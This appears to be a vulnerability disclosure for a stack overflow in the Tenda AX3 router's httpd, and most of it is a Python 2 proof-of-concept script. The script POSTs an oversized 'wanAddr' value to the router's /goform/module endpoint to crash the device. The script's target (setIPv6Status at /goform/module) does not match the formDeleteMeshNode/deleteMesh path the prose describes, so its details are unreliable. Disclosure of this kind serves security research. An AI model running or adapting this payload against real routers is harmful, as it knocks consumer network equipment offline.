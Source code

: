 # Tenda AX3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V16.03.12.11

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formDeleteMeshNode` function, which can be accessed via the URL `deleteMesh`

![1](./1.jpg)



When we send packets, the router will be dos

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        #if data is not None:
            #data = self.Encode(data)
        data='{"setIPv6Status":{"wanType":2,"wanAddr":"'+'b'*0x500+'"}}'
        print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #Fireitup
    session='W30EV2.0:0.171.1:83a6d6'
    ip = '192.168.0.1'  
    # 构造http数据包
    s='1'
    pdata = {

        'aaa'  :   'bbb' ,
        'ccc'  :   'dddd'
        }

    header = {
        'Cookie'        : 'bLanguage=cn; sessionid='+session,
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('/goform/module', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)



```

![poc](./poc.jpg)

![poc1](./poc1.jpg)

![poc2](./poc2.jpg)

